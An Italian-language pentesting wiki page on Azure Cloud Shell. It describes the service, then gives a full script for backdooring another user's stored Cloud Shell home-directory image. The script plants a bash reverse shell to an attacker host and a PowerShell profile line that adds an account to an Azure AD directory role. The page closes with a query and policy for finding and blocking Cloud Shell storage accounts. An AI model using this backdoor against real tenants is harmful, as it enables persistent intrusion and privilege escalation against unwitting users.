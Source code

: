 # Az - Cloud Shell

{{#include ../../../banners/hacktricks-training.md}}

## Azure Cloud Shell

**Azure Cloud Shell** è un terminale interattivo, autenticato e accessibile tramite browser, progettato per gestire le risorse di Azure, offrendo la flessibilità di lavorare sia con Bash che con PowerShell. Funziona su un host temporaneo, per sessione, che scade dopo 20 minuti di inattività, mentre i file vengono mantenuti nella posizione $HOME utilizzando una condivisione di file da 5 GB. Cloud Shell può essere accessibile attraverso più punti, inclusi il portale Azure, shell.azure.com, la documentazione di Azure CLI e PowerShell, l'app mobile di Azure e l'estensione Azure Account di Visual Studio Code.

Non ci sono permessi assegnati a questo servizio, quindi non ci sono tecniche di escalation dei privilegi. Inoltre, non c'è alcun tipo di enumerazione.

### Caratteristiche principali

- **Strumenti preinstallati**: Cloud Shell include un insieme completo di strumenti preinstallati come Azure CLI, Azure PowerShell, Terraform, Docker CLI, Ansible, Git e editor di testo come vim, nano ed emacs. Questi strumenti sono pronti all'uso. Per elencare i pacchetti e i moduli installati puoi usare "Get-Module -ListAvailable", "tdnf list" e "pip3 list".
- **Drive Azure (Azure:)**: PowerShell in Azure Cloud Shell include il drive Azure (Azure:), che consente una navigazione facile delle risorse di Azure come Compute, Network e Storage utilizzando comandi simili a quelli del filesystem. Passa al drive Azure con cd Azure: e torna alla tua directory home con cd ~. Puoi comunque utilizzare i cmdlet di Azure PowerShell per gestire le risorse da qualsiasi drive.
- **Installazione di strumenti personalizzati**: Gli utenti che configurano Cloud Shell con un account di archiviazione possono installare strumenti aggiuntivi che non richiedono permessi di root. Questa funzionalità consente una maggiore personalizzazione dell'ambiente Cloud Shell, permettendo agli utenti di adattare la propria configurazione alle proprie esigenze specifiche.
- **Persistenza di $HOME**: Quando avvii Azure Cloud Shell per la prima volta, puoi usarlo con o senza un account di archiviazione allegato.
- Scegliere di non allegare l'archiviazione crea una sessione effimera in cui i file vengono eliminati al termine della sessione.
- Per mantenere i file tra le sessioni, ti viene data l'opzione di **montare un account di archiviazione**, che si allega automaticamente come `$HOME\clouddrive`, con la tua directory `$HOME` **salvata come file .img in una condivisione di file.**

### Cloud Shell Phishing

Se un attaccante trova le immagini di altri utenti in un Account di Archiviazione a cui ha accesso in scrittura e lettura, sarà in grado di scaricare l'immagine, **aggiungere un backdoor bash e PS in essa**, e caricarla nuovamente nell'Account di Archiviazione in modo che la prossima volta che l'utente accede alla shell, i **comandi verranno eseguiti automaticamente**.

- **Scarica, backdoor e carica l'immagine:**
```bash
# Download image
mkdir /tmp/phishing_img
az storage file download-batch -d /tmp/phishing_img --account-name <acc-name>

# Mount image
cd /tmp/phishing_img/.cloudconsole
mkdir /tmp/cloudpoison
sudo mount acc_username.img /tmp/cloudpoison
cd /tmp/cloudpoison
sudo mkdir .config
sudo mkdir .config/PowerShell
sudo touch .config/PowerShell/Microsoft.PowerShell_profile.ps1
sudo chmod 777 .config/PowerShell/Microsoft.PowerShell_profile.ps1

# Bash backdoor
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/${SERVER}/${PORT} 0>&1 &)' >> .bashrc

# PS backdoor
echo "Connect-AzureAD; Add-AzureADDirectoryRoleMember -ObjectId 1246bcfd-42dc-4bb7-a86d-3637ca422b21 -RefObjectId 1D8B2447-8318-41E5-B365-CB7275862F8A" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
cd /tmp

sudo umount /tmp/cloudpoison

# Upload image
az storage file upload --account-name <acc-name> --path ".cloudconsole/acc_username.img" --source "./tmp/phishing_img/.cloudconsole/acc_username.img"
```
- **Quindi, phishing l'utente per accedere a https://shell.azure.com/**


### Trova e vieta gli account di archiviazione automatici di Cloud Shell

Gli account di archiviazione creati da Cloud Shell sono contrassegnati con **`ms-resource-usage:azure-cloud-shell`**. È possibile creare una politica delle risorse di Azure che disabilita la creazione di risorse con questo tag.

Trova tutti gli account di archiviazione creati da Cloud Shell per tag:
```bash
az storage account list --output json | jq '.[] | select(.tags["ms-resource-usage"]=="azure-cloud-shell")'
```
Politica per vietare la creazione di account di archiviazione automatici per l'archiviazione della shell cloud basata su tag:
```json
{
displayName: "Restrict cloud shell storage account creation",
description: "Storage accounts that you create in Cloud Shell are tagged with ms-resource-usage:azure-cloud-shell. If you want to disallow users from creating storage accounts in Cloud Shell, create an Azure resource policy for tags that is triggered by this specific tag. https://learn.microsoft.com/en-us/azure/cloud-shell/persisting-shell-storage#restrict-resource-creation-with-an-azure-resource-policy",
metadata: {
category: "Storage",
version: "1.0.0"
},
mode: "All",
parameters: {
effect: {
type: "String",
metadata: {
displayName: "Effect",
description: "Deny, Audit or Disabled the execution of the Policy"
},
allowedValues: [
"Deny",
"Audit",
"Disabled"
],
defaultValue: "Audit"
}
},
policyRule: {
if: {
allOf: [
{
field: "type",
equals: "Microsoft.Storage/storageAccounts"
},
{
field: "tags['ms-resource-usage']",
equals: "azure-cloud-shell"
}
]
},
then: {
effect: "[parameters('effect')]"
}
}
}
```
## Riferimenti

- [https://learn.microsoft.com/en-us/azure/cloud-shell/overview](https://learn.microsoft.com/en-us/azure/cloud-shell/overview)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/features](https://learn.microsoft.com/en-us/azure/cloud-shell/features)
- [https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window](https://learn.microsoft.com/en-us/azure/cloud-shell/using-the-shell-window)


## Persistenza

{{#ref}}
../az-persistence/az-cloud-shell-persistence.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
